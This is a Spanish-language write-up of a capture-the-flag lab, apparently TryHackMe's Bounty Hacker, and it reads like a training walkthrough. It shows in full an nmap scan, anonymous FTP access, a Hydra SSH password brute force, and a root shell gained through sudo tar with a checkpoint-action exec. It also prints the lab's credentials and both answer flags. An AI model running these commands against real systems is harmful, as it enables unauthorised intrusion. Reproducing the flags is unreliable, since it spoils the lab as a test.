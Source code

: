 Ip victima: 10.10.142.48

## Nmap

Realizamos un scaneo rápido

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn 10.10.142.48
| COMANDO  | RESULTADO |
| ------------- | ------------- |
| -p-  | Escanea todos los puertos(65535)  |
| --open  | Solo muestra los puertos que están abiertos  |
| -sS  | Realiza un escaneo SYN |
| -sC  | Ejecuta scripts por defecto de nmap  |
| -sV  | Detecta la versión de los servicios  |
| --min-rate=5000  | Fuerza una velocidad mínima de escaneo de 5000 paquetes por segundo  |
| -vvv  | Muestra salida muy detallada  |
| -n  | Desactiva la resolución de nombres DNS  |
| -Pn  | No hace ping  |

## Respuesta de NMAP

| PORT  | SERVICE |
| ------------- | ------------- |
| 21  | FTP  |
| 22  | SSH  |
| 80  | APACHE  |

## FTP

ftp 10.10.142.48
user: anonymous

Listamos los archivos que hay en el servidor con el comando dir

```bash
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

mediante el comando get nos bajamos los dos archivos
```bash
get task.txt
get locks.txt
```

Una vez tenemos descargado los dos archivos, vemos el contenido de ellos mediante cat

```bash
cat task.txt
cat locks.txt
```
En el archivo task.txt vemos que hay un posible usuario "lin" y en el archivo locks.txt vemos que es un diccionario de contraseñas.


## Fuerza bruta

```bash
hydra ssh://10.10.142.48 -l lin -P locks.txt
```
| COMANDO  | RESULTADO |
| ------------- | ------------- |
| ssh://10.10.142.48  | Especifica que el objetivo del ataque es el servicio SSH  |
| -l lin  | Define el nombre de usuario con el que se va a probar  |
| -P locks.txt  | Especifica el archivo de diccionario de contraseñas que Hydra va a usar  |

Obtenemos el siguiente resultado:

```bash
[22][ssh] host: 10.10.142.48   login: lin   password: RedDr4gonSynd1cat3
```

## SSH

```bash
ssh lin@10.10.142.48
Password: RedDr4gonSynd1cat3
```

Realizamos un ls y vemos la primera flag: user.txt
Mediante cat vemos el contenido del archivo: THM{CR1M3_SyNd1C4T3}

Realizamos el comando sudo -l para ver donde tiene permisos de ejecucion el usuario lin

```bash
sudo -l
password: RedDr4gonSynd1cat3
```

Se puede ver que podemos ejecutar tar como root.

Accedemos a la página https://gtfobins.github.io/ y buscamos tar

Vamos a Sudo

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Para recuperar la terminal ejecutamos el siguiente comando.

```bash
script /dev/null -c bash
```
Ejecutamos el comando whoami y vemos que somos root.

Accedemos al direcctorio root y listamos directorios

```bash
root@bountyhacker:/root# cat root.txt 
THM{80UN7Y_h4cK3r}
```

